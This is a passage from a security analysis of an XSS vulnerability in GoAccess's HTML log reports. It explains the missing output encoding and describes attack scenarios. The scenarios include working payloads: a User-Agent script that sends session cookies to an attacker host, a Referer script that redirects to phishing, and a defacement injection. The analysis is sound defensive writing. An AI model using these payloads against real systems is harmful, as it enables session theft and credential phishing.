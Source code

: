 * **Potential Server-Side Implications (Indirect):**
    * **Information Disclosure:** If the report is hosted on a server accessible to internal networks, attackers could potentially gain insights into internal infrastructure or application usage patterns.
    * **Lateral Movement:** If the user viewing the report has access to other internal systems, the XSS vulnerability could be a stepping stone for further attacks.

* **Reputational Damage:** If the generated reports are publicly accessible or shared with clients, the presence of XSS vulnerabilities can severely damage the reputation of the organization using GoAccess.

**3. Deeper Dive into the Technical Details of the Vulnerability:**

* **Lack of Output Encoding:** The core problem is the direct insertion of log data into HTML without encoding special characters. For example:
    * `<` should be encoded as `&lt;`
    * `>` should be encoded as `&gt;`
    * `"` should be encoded as `&quot;`
    * `'` should be encoded as `&#x27;`
    * `&` should be encoded as `&amp;`

    Failing to encode these characters allows the browser to interpret injected script tags (`<script>`) or HTML attributes containing JavaScript (e.g., `onload="maliciousCode()"`) as executable code.

* **Context-Sensitive Encoding:**  It's crucial to understand that encoding needs to be context-aware. The encoding required for inserting data within HTML tags is different from the encoding needed within HTML attributes or JavaScript code. GoAccess, by directly inserting the raw log data, fails to apply any context-aware encoding.

* **Reflected vs. Stored XSS:** In this specific scenario, the XSS is primarily **reflected**. The malicious script is injected into the log data and then immediately reflected back to the user when the HTML report is generated and viewed. However, if the logs are stored and the report is generated later, it can also be considered a form of **stored XSS**.

**4. Exploring Potential Attack Scenarios in Detail:**

* **Scenario 1: Stealing Session Cookies:**
    * An attacker crafts a request with a malicious User-Agent string: `"User-Agent: <script>new Image().src="https://attacker.com/steal?cookie="+document.cookie;</script>"`.
    * GoAccess logs this entry.
    * When the HTML report is generated, the script is embedded: `<span class="ua"><script>new Image().src="https://attacker.com/steal?cookie="+document.cookie;</script></span>`.
    * When a user views the report, the script executes, sending their cookies to the attacker's server.

* **Scenario 2: Redirecting Users to a Phishing Site:**
    * A malicious Referer header is injected: `"Referer: <script>window.location.href='https://attacker.com/phishing';</script>"`.
    * The generated report includes: `<a href="<script>window.location.href='https://attacker.com/phishing';</script>">...</a>`.
    * Clicking on this (or even just viewing the report if the script executes immediately) redirects the user to a phishing site designed to steal credentials.

* **Scenario 3: Defacing the Report:**
    * A malicious entry injects HTML to alter the report's appearance: `"User-Agent: <h1>Report Compromised</h1><img src='https://attacker.com/evil.gif'>"`.
    * The generated report will display the injected heading and image.
